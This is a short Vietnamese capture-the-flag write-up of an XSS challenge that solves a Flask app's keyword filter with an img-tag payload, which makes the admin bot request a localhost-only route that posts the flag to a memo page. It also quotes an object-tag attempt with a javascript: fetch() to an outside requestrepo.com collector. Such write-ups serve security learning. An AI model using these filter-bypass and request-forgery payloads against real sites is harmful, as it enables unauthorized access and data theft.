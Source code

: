 Đọc source code thì thấy ở route `vuln` có thể khai thác xss
```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```
Code replace nhưng string "frame", "script", "on" thành "*" mình đã thử dùng thẻ object mà không hiểu tại sao lại không hoạt động

```
<object data="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+"></object>
<object/data="jav&#x61;sc&#x72;ipt&#x3a;fetch('http://pmruqjmg.requestrepo.com')">
```
Sau khi đọc source một hồi mình thấy có manh mối ở route `/admin/notice_flag` 
```python
@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"
```
Trong route này nếu có ip `127.0.0.1` request tới với param `userid=admin` thì sẽ ghép flag vào biến `memo_text` (được khai báo global). Mà biến này thì có thể lấy thông tin thông qua route `/memo`
```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.jinja2", memo=memo_text)
```
Việc cần làm bây giờ lại tạo payload xss trên route `/vuln` để bot truy cập vào route `/admin/notice_flag`. Ở đây mình sử dụng thẻ img với payload 
```
http://103.97.125.56:30458/vuln?param=%3Cimg%20src=%22/admin/notice_flag?userid=admin%22%3E
```
Sau khi gửi payload cho bot trong `/flag` thì vào `memo` để lấy flag thôi.
